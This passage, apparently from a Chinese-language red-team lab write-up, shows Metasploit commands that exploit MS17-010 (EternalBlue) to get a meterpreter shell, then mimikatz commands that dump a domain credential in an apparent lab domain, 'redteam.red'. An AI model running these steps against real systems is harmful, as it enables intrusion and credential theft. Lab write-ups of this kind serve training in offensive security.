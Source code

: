   
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4OQeHvdnZnTVUufUXDDYVw6icwknYCbjF5g0bCXzEEpXHUjgUxHg64lEA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4O0GvvRqk8hwtuBcsZJTRdlTLmNibKtMpzic49WpTOC6lRR17mYUWY4icFQ/640?wx_fmt=png&from=appmsg "")  
  
发现的确存在
```
MS17-010
```

  
, 利用
```
exploit/windows/smb/ms17_010_eternalblue
```

  
进行攻击, 成功拿下该机器.  

```
search ms17-010
use 0
set payload windows/x64/meterpreter/bind_tcp
set lport 11111
run
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4OicZXTnDtWzLaJ90CZmDIU2ZmA4fCjDh2iadjdl589MfFoMmYyBjpEW4w/640?wx_fmt=png&from=appmsg "")  
  
先查看一下权限, 发现直接就是
```
system
```

  
权限, 也不需要进行提权的操作, 用
```
mimikatz
```

  
抓一下密码, 发现该主机在域环境
```
redteam.red
```

  
内, 并且拿到一组域账户的用户名和密码: 
```
saul:admin!@#45
```

  
.  

```
load mimikatz
creds_all
```

  